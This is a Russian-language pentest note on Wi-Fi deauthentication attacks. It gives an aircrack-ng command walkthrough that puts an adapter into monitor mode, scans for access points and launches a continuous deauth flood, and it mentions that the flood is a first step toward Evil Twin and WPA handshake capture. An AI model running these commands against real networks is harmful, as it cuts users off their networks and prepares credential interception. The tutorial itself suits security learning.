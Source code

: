 ## Введение
Одной из самых простых, но довольно действенных атак является Deauth атака.

Аутентификация в сети (не особо важно, как она защищена) выглядит примерно так:

![[Вводная теория#Открытая аутентификация]]

Как вы, возможно, уже догадались, суть атаки довольно проста: зная MAC-адреса точки доступа и клиента, мы можем направить последнему тот самый деаутентификационный фрейм, тем более что он не требует каких-либо дополнительных данных.

> Для клиента такая атака будет выглядеть либо как бесконечная попытка переподключиться, либо как постоянные подключения / разрывы соединения.

## AirCrack-NG

Наиболее известным набором для пентеста Wi-Fi является [AirCrack-NG](https://github.com/aircrack-ng/aircrack-ng). Многие другие инструменты так или иначе являются оберткой над ним, сокращающим количество действий. Тем не менее, в некоторых ситуациях это бывает полезно, например, при реализации данной атаки на более компактных устройствах.

> Deauth атаку можно провести не только с помощью громоздкого адаптера, но и с помощью того же ESP32 или ESP8266, что привело к появлению Deauther-watch, продаваемых за баснословные деньги. Единственный минус таких решений - дальность.

В **AirCrack-NG** Deauth атака проводится следующим образом:

`iwconfig` - получаем список интерфейсов.

`sudo systemctl stop NetworkManager` - остановка сервиса, который может помешать работе _aircrack-ng_.

`sudo airmon-ng check kill` - то же, что и выше.

`sudo ip link set wlan0 down` - останавливаем работу адаптера.

`sudo iw wlan0 set monitor control` - переводим адаптер в режим монитора.

`sudo ip link set wlan0 up` - снова включаем адаптер.

`iwconfig` - убеждаемся, что теперь в пункте _Mode_ стоит **Monitor**.

`airodump-ng wlan0` - получаем список BSSID точек, на которые мы можем провести атаку. Также благодаря этой команде можно понять, сколько устройств подключено к ней.

`iwconfig wlan0 channel <channel>` - настраиваемся на нужный канал (доступен в поле _CH_ результата команды выше).

`aireplay-ng -0 0 -a <BSSID> wlan0` - запускаем атаку

Также последнюю команду можно заменить на `aireplay-ng -0 0 -e <ESSID> wlan0` - результат не изменится.

В результате всех вышеперечисленных команд мы успешно запустим атаку на Wi-Fi точку, которая нарушит работу сети и приведет к невозможности ее использования до момента завершения атаки или перенастройки сети на другой канал.

Стоит все же отметить, что хоть Deauth и является самостоятельной атакой, чаще всего она является подготовительным этапом для других - **Evil Twin** или **перехвата WPA Handshake**.

## Полезные сслыки
- [**Статья про развитие Wi-Fi от IEEE Standards Association**](https://standards.ieee.org/beyond-standards/the-evolution-of-wi-fi-technology-and-standards/)
- [**s0i37_channel**](https://t.me/s0i37_channel) - Канал человека, хорошо разбирающегося в физической безопасности, периодически постит интересные материалы и утилиты.
- [**HackWare**](https://hackware.ru/) - сайт-агрегатор статей, можно найти много достаточно старых, но все еще полезных статей по использованию тех или иных вещей.
